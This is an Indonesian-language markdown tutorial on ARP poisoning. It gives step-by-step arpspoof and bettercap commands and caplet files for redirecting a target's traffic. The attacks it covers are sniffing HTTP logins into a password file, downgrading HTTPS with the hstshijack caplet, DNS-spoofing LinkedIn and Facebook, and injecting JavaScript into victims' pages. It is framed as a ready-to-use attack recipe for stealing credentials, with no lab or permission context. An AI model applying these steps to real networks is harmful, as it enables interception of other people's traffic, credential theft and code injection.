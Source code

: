 # ARP POISONING

## ARP SPOOFING
dengan ARP spoofing, seluruh trafik victim menuju router atau dest asli, akan dipaksa melewati komputer kita. komputer akan bilang ke router atau dest asli, kalau i am adalah victim (menggunakan ip victim), dan bilang ke victim i am adalah router/dest asli(menggunakan ip router). dengan begitu mapping ip arp tabel router / dest asli untuk victim akan diarahkan ke mac kita dan mapping ip arp tabel victim untuk router / dest asli akan diarahkan ke mac kita juga. 

ini bisa terjadi karena ARP punya dua kelemahan.
1. ARP akan mengaccept response packet arp walaupun tidak ada yang meminta
2. ARP tidak akan memverify tentang ARP Tabel nya, kemana mapping nya diarahkan. 

### ARPSPOOF
salah satu tool untuk melakukan arp spoofing adalah arpspoof, 
```
apt-get install dsniff
arpspoof -i interfacemu -t target maujadisiapa
```

jalankan arpspoof dua arah, dan jangan lupa ijinkan paket yang lewat di kali kita agar bisa lewat.
```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

ketika udah berhasi kita bisa menginject code, mendapat username dan password, melihat semua file yang lewat, mengganti fle dengan trojan dan lain lain.

### BETTERCAP
tool arp spoofing yang lain. bisa apa ? sniff data, bypass https, redirect DNS, inject code dan lain lain. 

```
bettercap -iface interfacemu
``` 

nyalakan modul net.probe `net.probe on` biar bisa liat semua client. ini akan otomatis menjalankan modul `net.recon`. net.probe mengirim probe request ke semua ip dan jika mendapat response net.recon akan mendetect response dan menambahkan semua ip ke list.
`net.show` untuk menampilkan semua list ip.  
untuk melakukan spoof `set arp.spoof.fullduplex true` dan `set arp.spoof.targets IPnyaberapa`. baru nyalakan `arp.spoof on`.
 

lakukan sniff dengan menyalakan modul sniff `net.sniff on`. jika mau memasukan output ke file, sebelumnya matikan dulu modul events.stream nya `events.stream off`. ubah parameter events.stream.output. `set events.stream.output ~/namafile` nyalakan lagi modul `events.stream on`. 

agar reusable kita bisa memasukan parameter parameter di atas pada sebuah file yang disebut caplet. `touch tes.cap'

#### GATHERING DATA FROM HTTP TRAFFIC
trafik http adalah trafik yang bisa dibaca, dengan bettercap kita bisa mengambil username dan password dari suatu web http. kita dapat membuat konfigurasi bettercap di awal, caranya adalah dengan memasukan parameter - parameter bettercap kedalam sebuah file caplet. `nano konfig.cap'
```
net.probe on
set arp.spoof.fullduplex true
set arp.spoof.targets ipkomputer target
arp.spoof on
net.sniff on
``` 
```
bettercap -iface interfacemu -caplet konfig.cap
```
maka seluruh trafik yang dihasilkan target menuju external network akan ditampikan di layar terminal. 

#### GATHERING DATA FROM HTTPS TRAFFIC
trafik https adalah trafik yang tidak bisa dibaca, maka dari itu untuk membacanya kita perlu mendowngrade https menjadi http. terdapat caplet yang bernama hstshijack/hstshijack. caplet ini secara default sudah tersedia di `usr/share/bettercap/caplet`. Namun kita perlu memodifikasi caplet tersebut. berikut [file](Assets/hstshijack.zip)nya, dan masukan ke /usr/share/bettercap/caplet. 

pertama buat file caplet seperti berikut, `nano konfig2.cap`
```
net.probe on
events.stream off
set events.stream.output ~/cekpassword.txt
events.stream on
set arp.spoof.fullduplex true
set arp.spoof.targets 192.168.1.192
set net.sniff.local true // diperlukan untuk membypass hsts
net.sniff on
arp.spoof on
```
```
bettercap -iface interfacemu -caplet konfig2.cap
```
kemudian setelah masuk prompt bettercap panggil 
`>hstshijack/hstshijack` 

clear cache browser, jalankan trafik dikomputer target tanpa https. untuk hsts kita tidak bisa langsung ke link nya, kita harus menggunakan perantara. di caplet kita www.google.com bisa digunakna sebagai perantara. 

jika ada error `ip:53` gunakan versi bettercap 2.23. [disini](Assets/bettercap) gantikan binary bettercap existing di folder `usr/bin/bettercap`

#### DNS SPOOF
membelokan request dns, teknik ini juga menggunakan arp spoofing. 
```
service apache2 start
```
```
net.probe on
set arp.spoof.fullduplex true
set arp.spoof.targets 192.168.1.78
arp.spoof on

net.sniff on
set dns.spoof.all true
set dns.spoof.domains linkedin.com,*.linkedin.com,facebook.com,*.facebook.com
dns spoof on
```

#### INJECT JAVASCRIPT
kita dapat menggunakan caplet hstshijack untuk menginject javascript pada halaman halaman http. cara nya adalah buka file `/usr/share/bettercap/caplet/hstshijack/hstshijack.cap`. pada bagian payload paling akhir tambahkan koma untuk menambah payload baru `,*:/path/namascript.js`. kita bisa mengganti `*` dengan domain spesifik untuk menentukan dimana script kita akan dijalankan.  



